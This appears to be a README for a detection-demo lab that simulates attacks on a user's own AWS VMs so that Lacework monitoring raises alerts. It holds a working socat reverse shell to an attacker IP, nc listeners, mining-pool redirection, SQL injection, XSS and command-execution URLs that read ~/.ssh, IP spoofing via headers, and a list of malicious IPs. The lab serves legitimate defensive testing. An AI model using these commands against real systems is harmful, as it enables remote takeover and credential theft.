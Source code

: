 # 🧪 Welcome to the Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Compromise Host (LW Composite alert), Remote Command Execution, XSS, IP Spoofing, and simulates known bad IP behavior. **This is only for educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/10402fa0-0c8f-4911-a89b-4795f1ff6b81)


> ⚠️ **IMPORTANT:** All tests must be run within your **own VPC lab environment**. 

---

## 🛠️ Preparations

### Git Clone the Demo Simulator repo

```
git clone https://github.com/svuillaume/demo_simulator
```

### 1. Launch Two VMs with Public IP assigned
- **Attacker VM**
- **Victim VM**

### 2. Create an AWS ELB
- **Create a new Target Group and Register Attack VM**

Note: The above are intended for Lacework to detect these VM "Internet Exposure"

---

## 🧰 Attacker VM Setup

1. **Install Docker**
2. **Deploy Lacework Agent**

---

## 🎯 Victim VM Setup

1. **Install dependencies**
   ```
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```
   python3 app.py
   ```
6. **Deploy Lacework Agent**
   ***Ideally enable AVD on the agent setup***   

---

# ▶️ Running the Simulation

## On the Attacker VM (Open 2 Terminals or use screen)

1. **Create a persistent socket listener on Terminal 1 or screen 1:**

```
nc -k -l 3333 &
```

2. **Create a new socat tcp listener on tcp 5555**

```
socat file:`tty`,raw,echo=0 tcp-listen:5555
```
 
3. **Optionally run traffic simulation with k6 on Terminal 2 or screen 2:**

```
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

### On the Victim VM

1. **Intiate an interactive Reverse Shell***

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.31.30.103:5555
```
---

# 🚀 HOWTO run the Demo

**On the Attacker VM**

1. **Using the establisehd Reverse Shell Connection, Run the attack simulation script***

```
./demo_simulator/lw_attack_sim.sh
```

***Note: The script will run for 5 minutes*** 
***On the Attacker VM, you can run K6.js script to generate traffic from all over the world (this is using the x-forward-for header)***

---


# Owasp Attacks: These are for your own inspiration

### 🔓 Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

---

### SQLI - SQL Injection

http://<victim>:5000/user?id=123
http://<victim>:5000/user?id=1%20OR%201=1

### 💬 Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)


**Example:**

```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

### Fetch AWS secret

```
export AWS_SECRET_ACCESS_KEY="my_fake_secret_key"
python3 web.py
```

```
http://<victim>:5000/secret
```

### RCE - Remote Code Exec

```
http://<victim>:5000/cmd?exec=ls%20-l%20/
[http://localhost:5000/cmd?exec=ll%20.ssh%20/"](http://3.96.142.208:5000/cmd?exec=ls%20-l%20~/.ssh)
```

---

### 🌐 Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**

```
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## 🚨 Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## ✅ Happy Demo!

Happy testing — use responsibly in isolated environments.

---

### Socat and NetCat Clean up

***On Attacker VM***

```
lsof -i -n -P | grep nc | awk '{print $2}' | sort -u | xargs -r kill -9
```

***On Victim VM***

```
lsof -i -n -P | grep socat | awk '{print $2}' | sort -u | xargs -r kill -9
```
